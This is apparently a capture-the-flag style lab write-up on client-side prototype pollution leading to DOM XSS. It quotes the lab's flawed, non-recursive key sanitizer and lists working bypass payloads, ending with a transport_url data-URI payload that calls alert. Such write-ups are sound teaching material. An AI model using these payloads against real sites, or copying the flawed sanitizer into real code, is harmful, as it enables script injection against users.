





# Client-side prototype pollution via flawed sanitization
# Objective
This lab is vulnerable to DOM XSS via client-side prototype pollution. Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

To solve the lab:
1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call `alert()`.


# Solution
## Analysis
The website logs parameters send in search request.

||
|:--:| 
| *Logger request with JSON data* |
||
| *Used scripts - Logger script* |

Source code of `searchLoggerConfigurable.js`:
```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}

window.addEventListener("load", searchLogger);
```


## Exploitation
Sanitization function does not sanitize input recursively, therefore attacker can bypass it using for example: `__pro__proto__to__`.
```js
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

Alternative payloads possibilities:
```
/?__pro__proto__to__[foo]=bar
/?__pro__proto__to__.foo=bar
/?constconstructorructor[protoprototypetype][foo]=bar
/?constconstructorructor.protoprototypetype.foo=bar
```

Attacker can deliver exploit by specifying `transport_url` property of `config` - `transport_url` can be used as gadget.

||
|:--:| 
| *Test for prototype pollution* |
||
| *Rendered script on page with test payload* |
||
| *Rendered script on page with final payload* |

Final payload:
```
?__pro__proto__to__[transport_url]=data:,alert(1);
```

This vulnerability can be exploited using DOM Invader.

